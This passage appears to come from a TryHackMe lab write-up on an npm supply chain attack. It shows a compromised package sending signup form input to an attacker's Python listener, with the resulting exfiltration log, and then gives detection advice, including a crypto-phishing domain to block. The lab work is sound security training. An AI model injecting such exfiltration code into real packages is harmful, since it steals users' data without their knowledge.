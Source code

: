 **Note**: Normally, pushing the package from npm to the CDN is automated; however, to keep the attacker VM lightweight and less resource-intensive, you can manually initiate this process by visiting `http://10.10.184.11:8080/pushtoCDN.php` once the malicious package is uploaded.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241205140536.png)

## Configuring the Attacker Machine

On the AttackBox, start a Python listener by issuing the command `python3 -m http.server 9090`. In the attached VM, visit the same URL `localhost:8080` to check the package's functionality. Please ensure to perform a hard refresh on the page to load the latest `bundle.js`. You can do this by pressing `Ctrl+R` (Windows/Linux) or `Command+R` (Mac).

Enter the value **hello** in the username and click on **Submit**.

![signup form to test the supply chain attack](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1730970060765.png)  

Navigate to the AttackBox, where you have set the Python listener. You will receive the entered form data in the server as shown below:

```shell-session
root@tryhackme$ python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.10.1.196 - - [07/Nov/2024 09:02:49] code 404, message File not found
10.10.1.196 - - [07/Nov/2024 09:02:49] "GET /collect?name=hello&email= HTTP/1.1" 404 -
```

This is it; the important thing to note here is that neither the developer nor anyone using the package would know it has been compromised, as the package still performs its intended functionality perfectly.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241205140643.png)

# Detection and Mitigation
---


In the previous task, we examined how attackers can exploit a supply chain vulnerability by injecting malicious code into a trusted package. These attacks are difficult to identify since legitimate updates to third-party dependencies are common in development workflows.
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241205140742.png)

## Mitigation Techniques

To detect signs of supply chain attacks, we can leverage a SIEM solution to monitor logs for suspicious activity, such as unexpected calls to services like cryptocurrency wallet connections in web traffic logs. In this case, block any call to the domain `castleservices01[.]com`, widely used in crypto-phishing attacks. Additional steps include:

```ad-summary
- **Monitor Web Logs**: Check for unusual or unauthorised requests from third-party libraries, particularly calls to external domains or unexpected endpoints. It is also possible that the supply chain attack resulting through a JS file may not leave any track on the server logs.
- **Track Package Changes**: Keep logs of package version changes and note any updates to popular libraries (e.g., `@lottiefiles/lottie-player`), and compare version histories with official release notes.
- **Set Up Alerts for Suspicious Activity**: Use automated alerts for unexpected behaviour, such as connection attempts to cryptocurrency services, which may indicate supply chain compromise.
- **Limit Access and Permissions**: Restrict access tokens and credentials for publishing packages, enforce two-factor authentication, and rotate tokens periodically.
- **Use Verified Sources**: Rely on official package registries or internal mirrors that only host vetted libraries, reducing the risk of supply chain compromise from rogue repositories.
```